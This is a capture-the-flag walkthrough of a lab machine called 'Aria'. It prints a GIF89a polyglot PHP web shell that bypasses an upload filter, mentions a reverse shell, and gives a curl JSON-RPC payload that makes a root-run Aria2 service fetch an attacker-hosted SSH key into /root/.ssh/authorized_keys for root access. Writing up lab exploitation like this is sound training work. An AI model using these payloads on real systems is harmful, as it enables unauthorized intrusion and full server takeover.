

# Aria

Once the target was identified, I used **nmap** to check the services it was using, determining that the target used services on 3 ports. I only knew `port 22,80` but completely could not determine what service `port 1337` was using. I guessed that it might be a custom port by the author.

My thinking was that `port22` is usually used to SSH into the service after knowing all the information, so I would set it aside, and focus on `port 80` and `port 1337` first.



After I accessed the web (`port 80`), it showed an interface to upload files. I immediately uploaded an image file (PNG) and received a success message, but when I uploaded a file with a strange extension, it returned the status code `*Error: Only JPG, PNG, and GIF files are allowed*` letting the attacker know exactly which file extensions are allowed to be uploaded.

It can be seen that the Dev did a good job in **preventing users from uploading malicious files**, but the dangerous point here is that **the error message is returned like a hint**. From here, I will try the technique of nesting malicious code into the image through **GIF89a** to test whether **the server sanitizes the image before putting it into the backend** or not. Along with that, I also realized that the hint text below on the home page as soon as I accessed the web translated to mean **'The file path after upload will be generated randomly using the function `md5(time()-rand(1,1000))`.**' That is, it will **hash my shell** into a **random code** so that it is difficult for me to find in **activating and calling the shell**, at this point I will probably have to scan **`port 1337.`**


To prepare for the exploitation, first of all I needed to bypass the file filter of the Web Server. Through testing, I determined that the filter applies **two layers of censorship**:

1. **File type filtering (Magic Bytes filter):** Checks the content at the beginning of the file to determine the format, only accepting files with valid headers of GIF/JPG/PNG. The notable point is that the server **does not block by extension** of the filename, which means we can completely upload a file with `.php` extension as long as the content at the beginning of the file looks like an image.
2. **Content filtering (Content filter):** Scans the entire file content, blocking any files containing the string `<?php` (case-insensitive, including `<?PHP`, `<?Php`,...).

If I create a simple file containing malicious code like:

```
echo -e 'GIF89a\n<?PHP system($_GET["cmd"]); ?>' > shell.php
```


When uploaded, the content filter will detect the string `<?PHP` and report a red error: `Error: Invalid file content.`

To bypass, we need to apply the **Polyglot File** technique combined with bypassing both layers of filtering:

- Insert **`GIF89a`** at the beginning of the file → Magic Bytes match the GIF format → bypass the file type filter.
- Use **PHP Short Echo Tag** `<?=` instead of `<?php` → does not contain the string `php` → bypass the content filter.
- Use the **`exec()`** function instead of `system()` or `passthru()`, because through the testing process I discovered the server had disabled common command execution functions in the `php.ini` configuration, but missed `exec()`.

```
echo -e 'GIF89a\n<?=exec($_GET["cmd"]);?>' > shell.php
```

The system notified that the upload was successful (`File uploaded successfully`). Thus, the file containing the malicious code was securely placed on the server. Next, we need to find where it is specifically stored. Returning to the Terminal window connecting to the Debug port `1337` via Netcat, I used showpath to view the path. At this point, the system logged the latest upload action and returned the exact path of the file that was MD5 hashed. Because I uploaded a file with a `.php` extension, the server also saved it with a `.php` extension, which is extremely important because Apache will execute this file through the PHP compiler instead of returning raw content.


Up to this point, I just need to directly access the provided path to check the remote command execution (RCE) capability. The returned result: `uid=33(www-data) gid=33(www-data) groups=33(www-data)` — confirming we have Remote Code Execution (**RCE**) permissions on the target server under the `www-data` user.

### USER FLAG

Thus, after getting inside, I immediately set up a reverse shell to call back to the hacker's machine, searched the directories and I cat-ed the user flag of `aria`.


`flag{user-d13adadc6bbc1391394a5198cba2d1d7}`


### ROOT FLAG

After getting inside, I found a way to escalate privileges to get the root flag.


I performed listing files, apart from the file that I retrieved the userflag from, there was nothing else for me to exploit further because these are all default files of the system, I searched for strange files but still could not find any, but then I remembered this challenge has custom ports, I immediately showed all active ports to find more information. And I noticed `port 6800` is open.


Looking up some documents, I found that port `6800` is the default port of the **Aria2 JSON-RPC** service. Aria2 is a powerful download support tool, if misconfigured, we can force it to download remote files and overwrite the system. I tried to send a basic request to get the version of Aria2 to confirm. But the returned result was an error *"Unauthorized"* showing that this service has been configured with a password (RPC secret token). However, through the process of extracting hidden code (zero-width steganography) from the website, I obtained the token which is `maze-sec`.

Next, I checked under which user's permissions this Aria2 service was running:

```
ps aux | grep aria
```


The `/usr/bin/aria2c` process is running as **root**.

**⇒ Thinking:** **Use Aria2 to download my SSH Public Key and overwrite the `/root/.ssh/authorized_keys` file of the target.**

#### **Download SSH Public Key and overwrite**

I moved into the `.ssh` directory and set up a simple Web Server to host the public key file `id_rsa.pub`.


**Then send the exploit command via JSON-RPC**. Returning to the `www-data` shell on the target machine, I used `curl` to send a POST packet to Aria2. The payload will command Aria2 to download the file `id_rsa.pub` from the Kali machine and save it to the `/root/.ssh/` directory with the name `authorized_keys`. I inserted the token `maze-sec` to bypass authentication:

```
curl -X POST -d '{"jsonrpc":"2.0","method":"aria2.addUri","id":"1","params":["token:maze-sec",["http://192.168.3.114/id_rsa.pub"],{"dir":"/root/.ssh","out":"authorized_keys"}]}' http://127.0.0.1:6800/jsonrpc
```

After running the command, Aria2 returned a successful result, the Kali Web Server screen also reported code `200 OK`, confirming that the target had downloaded the file.

Now, my Public Key is already inside the target machine. The final thing is just to SSH straight into the Aria machine under root without a password:

```
ssh root@192.168.3.119 -i id_rsa
```

Successful connection! Checking with the `id` command, I had completely gained `root` privileges and cat-ed the flag:


`flag{root-374495cbd5d79b6e45b7778cbac070cc}`


